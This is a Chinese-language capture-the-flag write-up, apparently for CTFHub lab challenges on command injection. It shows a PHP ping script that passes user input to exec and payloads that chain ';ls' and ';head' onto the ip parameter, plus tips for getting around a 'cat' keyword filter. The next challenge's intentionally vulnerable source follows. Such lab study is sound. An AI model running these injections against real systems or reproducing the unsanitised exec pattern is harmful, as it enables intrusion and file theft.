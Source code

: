 ```python
<hr>

<pre>
<?php
if ($res) {
    print_r($res);
}
?>
</pre>

<?php
show_source(__FILE__);
?>

</body>
</html>
```

和上一题好像差不多  但是过滤了cat关键字 我们还是先寻找flag在的文件 先列出根目录下的文件

```python
?ip=127.0.0.1;ls /
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736923786416-b2ed94c3-caaf-4930-a0d9-70dde8302f0f.png)

没有发现flag  接着查看网站目录下的文件

```python
?ip=127.0.0.1;ls
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736923883896-bb641e26-12a8-4eb7-bd98-d4066b9bdc44.png)

发现flag文件 我们可以用head代替cat来读取flag 

```python
?ip=127.0.0.1;head flag_282401865310892.php
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736924481391-e03820cb-f67f-47e4-8eb8-6a7e68faed73.png)

此外除了head能替代cat以外常见的还有more less tail tac

### 过滤空格
```python
<?php

$res = FALSE;

if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/ /", $ip, $m)) {
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
?>

<!DOCTYPE html>
<html>
<head>
    <title>CTFHub 命令注入-过滤空格</title>
</head>
```